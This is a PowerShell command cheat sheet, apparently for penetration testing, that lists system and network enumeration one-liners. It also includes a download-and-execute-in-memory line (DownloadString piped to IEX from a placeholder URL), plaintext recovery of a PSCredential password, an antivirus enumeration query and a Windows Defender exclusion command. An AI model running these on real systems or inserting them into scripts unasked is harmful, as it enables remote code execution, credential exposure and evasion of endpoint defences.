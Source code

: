 # PowerShell

---

## Create a Credential (`PSCredential` Object)

```powershell
$password = ConvertTo-SecureString -AsPlain $PASSWORD -Force
$credential = New-Object System.Management.Automation.PSCredential($USERNAME, $password)
```

---

## Recover the Plaintext Password from a `PSCredential` Object

```powershell
$bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($credential.Password)
[System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr)
```

---

## Download a File via HTTP(S)

```powershell
Invoke-WebRequest -Uri $URL -OutFile $OUTPUT_FILE_PATH
```

---

## Import a Remote PowerShell Module

Download the module and save it as a string in memory. Use `Invoke-Expression` to execute the string as actual PowerShell. This will define all of the functions for use on that line. This means that all the commands you need to execute from the module must be executed on the same line as the `Invoke-Expression` (`IEX`) statement.

```powershell
$module = (New-Object Net.Webclient).DownloadString("$REMOTE_MODULE_URL")
IEX $module; $COMMAND_1; $COMMAND_2; $COMMAND_N
```

---

## Query Operating System Information via WMI

```powershell
Get-CimInstance -ClassName "CIM_OperatingSystem"
```

---

## Query Operating System Version from .NET `Systen.Environment` Library

```powershell
[System.Environment]::OSVersion.Version
```

---

## Query Installed Updates via WMI

```powershell
Get-HotFix
```

```powershell
Get-CimInstance -ClassName "Win32_QuickFixEngineering"
```

---

## Query Installed Antivirus via WMI

```powershell
Get-CimInstance -Namespace root/securitycenter2 -ClassName antivirusproduct
```

---

## Query Environment Variables

```powershell
Get-Item Env:
```

---

## List Currently Running Processes

```powershell
Get-Process
```

---

## Query Network Adapters

```powershell
Get-NetAdapter
```

---

## Query Network Listeners & Connections

```powershell
Get-NetIPConfiguration
```

---

## Query Local Groups

```powershell
Get-LocalGroup
```

---

## Query SMB Shares

```powershell
Get-SmbShare
```

---

## Import a PowerShell Module

```powershell
Import-Module $PATH_TO_POWERSHELL_MODULE
```

---

## Add a Windows Defender Exclusion

In an administrative or SYSTEM context:

```powershell
Add-MpPreference -ExclusionPath $PATH_TO_FOLDER_TO_EXCLUDE
```

---

## Recursively Search the File System

```powershell
Get-ChildItem -Path C:\ -Include "$FILENAME" -Recurse -ErrorAction SilentlyContinue
```

- `$FILENAME` can contain wildcards
